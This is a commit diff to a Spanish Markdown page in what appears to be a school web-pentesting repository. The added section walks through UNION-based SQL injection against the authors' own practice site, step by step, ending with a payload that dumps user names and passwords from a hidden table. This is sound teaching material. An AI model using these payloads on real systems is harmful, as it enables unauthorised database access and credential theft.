

Before and after one commit to IES-Rafael-Alberti/PenetrandoWeb, a Markdown page: SQL/ExplotaciónSQLi.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/SQL/ExplotaciónSQLi.md
+++ b/SQL/ExplotaciónSQLi.md
@@ -113,3 +113,32 @@ NUL (ASCII 0), \n, \r, \, ', ", and Control-Z.
 ```
 
 # Página propia
+
+Para empezar en nuestra página vemos solo hay una página, que hace consultas a una tabla. Pero si usamos los siguientes comandos al final sacaremos información de una segunda tabla.
+
+- Con este vemos si la página es vulnerable a inyecciones sql
+```
+' OR 1=1 -- -
+```
+- Con este comprobamos el número de columnas que tiene la tabla
+```
+' union select 1, 1 -- -
+```
+- Con este sacamos el nombre de la base de datos
+```
+' union select 1, database() -- -
+```
+- Con este, utilizando el nombre de la base de datos sacamos los nombres de las tablas
+```
+' union select table_name, null from information_schema.columns where table_schema = "id20453829_peliculas"-- -
+```
+- Tambien utilizando el nombre de la base de datos sacamos los nombres de las columnas de todas las tablas
+```
+' union select column_name, null from information_schema.columns where table_schema = "id20453829_peliculas"-- -
+
+```
+- Y con eso podemos sacar el nombre y contraseña de la tabla usuarios la cual esta oculta
+```
+' union select 1, concat(nombre,'-',contrasena) from usuarios -- -
+
+```
````
